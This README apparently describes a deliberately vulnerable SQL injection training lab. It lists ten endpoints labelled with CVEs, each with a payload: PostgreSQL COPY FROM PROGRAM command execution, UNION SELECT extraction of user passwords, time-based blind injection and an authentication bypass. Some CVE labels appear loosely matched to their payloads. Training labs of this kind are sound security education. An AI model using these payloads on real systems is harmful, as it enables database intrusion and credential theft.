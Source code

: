 # Advanced SQL Injection Lab

This lab implements 10 critical SQL injection CVEs for educational purposes.

## Setup

1. Build and start containers:
```bash
docker-compose up --build -d
```

2. Access the lab at:
http://localhost:8080

## Implemented CVEs

### 1. CVE-2019-9193 - PostgreSQL RCE
- **Endpoint**: `/cve-2019-9193?query=test`
- **Payload**: 
```sql
test'; CREATE TABLE exfil(data text); COPY exfil FROM PROGRAM 'id'--
```

### 2. CVE-2020-7471 - Django StringAgg
- **Endpoint**: `/cve-2020-7471?delim=,`
- **Payload**: 
```sql
') FROM "vuln_table" WHERE 1=1 OR ("vuln_table"."id")::text LIKE '100'--
```

### 3. CVE-2018-15133 - Laravel unserialize
- **Endpoint**: `/cve-2018-15133` (POST)
- **Payload**: Serialized PHP object injection

### 4. CVE-2020-35476 - Drupal JSON:API
- **Endpoint**: `/cve-2020-35476?filter=1=1`
- **Payload**: 
```sql
1=1) UNION SELECT username,password FROM users--
```

### 5. CVE-2020-14750 - WebLogic
- **Endpoint**: `/cve-2020-14750?id=1`
- **Payload**: 
```sql
1 UNION SELECT SYS.DATABASE_NAME FROM DUAL--
```

### 6. CVE-2020-5405 - Spring Data JPA
- **Endpoint**: `/cve-2020-5405?name=admin`
- **Payload**: 
```sql
admin' AND 1=1) OR (1=1 AND '1'='1
```

### 7. CVE-2020-1956 - Apache Kylin
- **Endpoint**: `/cve-2020-1956?project=test`
- **Payload**: 
```sql
test' UNION SELECT password FROM users--
```

### 8. CVE-2020-5515 - SuiteCRM
- **Endpoint**: `/cve-2020-5515?id=1`
- **Payload**: 
```sql
1' AND IF(SUBSTRING(@@version,1,1)='5',SLEEP(5),0)-- 
```

### 9. CVE-2019-19879 - Dolibarr
- **Endpoint**: `/cve-2019-19879` (POST)
- **Payload**: 
```sql
admin'-- 
```

### 10. CVE-2021-27852 - PrestaShop
- **Endpoint**: `/cve-2021-27852?id=1`
- **Payload**: 
```sql
1 UNION SELECT 1,CONCAT(login,':',passwd),3,4 FROM ps_employee--
```

## Security Warning
- This lab contains dangerous vulnerabilities
- Use only in isolated environments
- Never expose to public networks
